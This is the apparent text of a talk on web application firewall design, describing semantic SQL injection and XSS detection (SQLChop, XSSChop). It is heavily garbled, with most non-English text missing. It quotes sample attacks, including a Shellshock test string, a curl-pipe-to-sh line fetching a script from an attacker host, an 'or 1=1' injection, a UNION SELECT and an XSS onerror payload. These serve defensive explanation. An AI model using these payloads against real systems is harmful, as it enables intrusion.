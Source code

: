 zTrix 

WAF

WAF
 WebWeb Application Firewall  WAFWAF  
 360WAF  WebRAYWAF
 Gartner Imperva 

Web
 Web
 Web  Web
   Web 
 Web
 SQLXSS  Struts2ImageMagick
   Gopher 

WAF

WAF
 WAFWeb
 JIT    
 WAF
     
 WAF
     

WAF
 WAF
   
 
 +    WAFWAF


WAF
 1.  2.  3. WAF


2014  shellshock 
$ env x='() { :;}; echo vulnerable' bash -c 'echo hello'

    

----shellshock
Bash 

----shellshock

$ env x='('') { :;}; echo vulnerable' bash -c 'echo hello' 

----shellshock


----shellshock
   ${XX}  

----
  shell

----
  $ curl http://hacker-website.org/my.html | sh  ...


  bash  



; ` & | > ? { } [ ] $ echo _user_input_here_


Command Substitution


 https://en.wikipedia.org/wiki/Finite-state_machine
  Chomsky Hierarchy  Type-3 Grammar Type-0 Grammer 
  
  BlackHat 2005, Hansan  Patterson   ( http://www.blackhat.com/presentations/bh-usa-05/BH_US_05-HansenPatterson/HP2005.pdf)


2015 SQLChop SQL  BlackHat Arsenal 2015XSSChop  XSS  PHPPHPJava  






 payload     ->  -> / 

----
Context Free Grammar  O(n)  
xxxx' or '1'='1 <img src=1 href=1 onerror="javascript:alert(1)"></img> '() { :;}; echo vulnerable' bash -c 'echo hello'


?
Javascript    Semantic Conditions 

----
 BNF


       


  
  SQL  findAndModify MongoDB  
  

----SQLSQLChop

SQL

union select 1 from users where password = 'admin'



Student union representative should be those best students that you can select from this class



We should select the best students from this class as the student union representative

----SQLSQLChop
SQLChop 
<type bareword> <type string> <type number> <type string> <type number> 
xxxx' or '1'='1
 <type string> <keyword or> <type string> <operator => <type string>

----SQLSQLChop
SQLChop  token  SQL   BNF 
SQL expr 

----SQLSQLChop
 WAF  SQL  SQL  

SQL

http://xxx.org/?q=union%20select%201%20from%20users%20where%201=1



http://xxx.org/?q=Student%20union%20representative%20should%20be%20tho se%20best%20students%20that%20you%20can%20select%20from%20this%20class

----SQLChop Demo
http://sqlchop.chaitin.com/

----XSSXSSChop
<img src=1 href=1 onerror="javascript:alert(1)"></img>
tag_name = "img" attr_name = "onerror" attr_value = "javascript:alert(1)"

----XSSXSSChop
  
 Javascript SQL  ECMAScript 2017 

----XSSChop Demo
http://xsschop.chaitin.com/


  Payload   bool
  


SQL 231+1 SQL  WAF   

?
WAF  

WAF----WAF
  IP/session  IP/Session   IP/session SQL   

WAF----
 IP/Session  WAF 
  IP/Session  IP  

WAF----WAF
      URL 
    

WAF----WAF
 
   
 
   WAF  URL 
 
 WAF  SNMP   
 ...  ...


  Imperva     

---- WAF 
       
         ++ 
  


WAF   WAF  WAF 
 1.  2.  3. WAF

One more thing...
WAF/SafeLine "" 



Thanks!
 

